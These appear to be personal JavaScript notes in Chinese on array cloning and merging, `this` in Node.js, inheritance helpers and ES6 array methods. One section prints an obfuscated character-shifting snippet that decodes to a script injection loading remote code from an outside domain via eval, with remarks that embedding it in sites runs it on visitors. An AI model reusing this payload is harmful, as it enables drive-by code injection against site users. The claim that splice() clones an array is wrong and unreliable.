 ﻿# JavaScript-Notes

---

### **克隆数组**

经常用到克隆一个一模一样的数组，但是不能直接 arr1 = arr2，因为 arr1 只是指向同一份数据的另一个指针而已，这种情况下，修改arr2，arr1也会发生变化，而我们需要的是完全的克隆。

ES5 中可以这样写：

```
arr2 = arr1.concat()
// 或
arr2 = arr1.splice()
```
根据 concat 和 splice 返回原数组的克隆的特性

ES6 中出现了扩展运算符就可以更加简便地实现了：
```
arr2 = [...arr1]
```

### **合并数组**

将一个数组的所有元素合并到另一个数组中去，最简单的做法就是遍历数组，然后把每个元素 push 进另一个数组中，很显然，这种做法非常不优雅，看看更优雅的：

ES5 的做法：
```
arr1.concat(arr2)
```
concat 本身的作用就是合并两个数组，这样做非常自然。这种做法不会改变 arr1 的内容，它会返回一个新的数组

ES6 的做法，扩展运算符再一波刷新了它的存在感：
```
arr1.push(...arr2)
```
这种做法会改变 arr1 的内容，就再次省略了赋值的操作，优雅。合并多个数组的时候，只需往 push 里添加参数就可以了

### **NodeJS 和 Javascript 的 this**

初用 NodeJS 的时候第一时间就发现了 NodeJS 中的 this 怪怪的，下面请看案发现场：

```
var a = 'a';
var fn = function () {
	console.log(this.a);
};

fn();
```

这个简单的例子，在浏览器中执行大家都知道肯定是打印 a 出来。然而这个理所当然在 NodeJS 中并不管用，NodeJS 直接扔了个 undefined 回来，说这个玩意我不认识。都是兄弟，怎么弟弟就脸盲了呢？咱们去下一个案发现场：

```
var a = 'a'
var fn = function () {
	this.a = 'b';
};

fn()
console.log(a);
```

在函数中修改了全局变量 a 的值，至少在浏览器上运行是这么理解的，打印出来的结果是理所当然的 b。我们倔强的 NodeJS 说什么也不变，就是 a。那么在 NodeJS 中这个函数里的 this.a 去哪了呢？打印一下这个就知道了：

```
console.log(global.a)
```

有没有一丝明白，我们再来理一下。函数中的 this 指向的是调用改函数的对象，所以在全局中执行的函数 fn this 指向的是全局对象 window ，这是在浏览器中的情况。NodeJS 没有 window，全局对象是 global，所以函数中定义的 this 的内容全部都存储在 global 中，而在顶级作用域中所有的内容都是属于 module.exports 老大的，所以顶级作用域定义的 this.a ，可以通过这样来获取：

```
console.log(module.exports.a)
```

### **两种对象继承方法**

第一种是 YUI 库实现继承方法，利用空对象作为中介的 prototype 模式继承，直接封装成函数了：

```
function extend(Child, Parent) {

  var F = function () {};

  F.prototype = Parent.prototype;

  Child.prototype = new F();

  // 上面的操作使子对象的 constructor 指向了空对象，下面手动纠正回来
  Child.prototype.constructor = Child;

  // 为子对象设置一个uber属性，这个属性直接指向父对象的prototype属性
  // 这等于在子对象上打开一条通道，可以直接调用父对象的方法。实现继承的完备性，纯属备用性质
  Child.uber = Parent.prototype;
}
```

第二种是拷贝继承，把父对象的所有属性和方法拷贝进子对象实现继承，封装成函数是：

```
function extend2(Child, Parent) {
  var p = Parent.prototype;
  var c = Child.prototype;
  for (var i in p) {
    c[i] = p[i];
  }
  c.uber = p;
}
```

### **一段恶意代码**

网上瞎逛的时候发现了这么一段代码，颇有意思，研究研究：
```
var str = "cnbtldms-vqhsd'!;rbqhosrqb<";
str += "[!gsso9..vvv-fnnfkd`crk-bnl.robncd.";
str+="iptdqx-ir[!=;.rbqhos=!(:";
var length = str.length;
var ba64 = "";
for (i = 0; i < length; i++) {
    var s = str.charCodeAt(i);
    s++;
    ba64 = ba64 + String.fromCharCode(s);
}
console.log(ba64);
eval(ba64);
```

很巧妙，用一堆莫名其妙的无效字符串通过对每个字符进行转码操作再转回字符串就变成一串有效的恶意字符串， 最后用 eval() 执行恶意字符串，学习了。把这段恶意代码嵌套到别的网站中，用户访问该网站就执行了这段恶意代码。而且这种病毒一般杀毒软件都查杀不了，也可以看出 eval() 的不安全性。

### **ES6: find 和 findIndex**

indexOf(element) 是根据数组元素找到元素所在数组的位置

find(callback) 是按照回调函数的规则找到数组中第一个符合规则的元素，没有的话返回 undefined，回调函数的参数有value，index，arr

findIndex(callback) 是 find 和 indexOf 的合体，传入回调函数，返回符合条件的数组成员位置，没有则返回-1

indexOf 还有一个不足的地方是无法识别数组中的 NaN 元素，而 findIndex 可以

### **判断是否是 NaN**
NaN 不能直接通过 === 去判断，所以可以用：
```
Object.is(NaN, x)
```

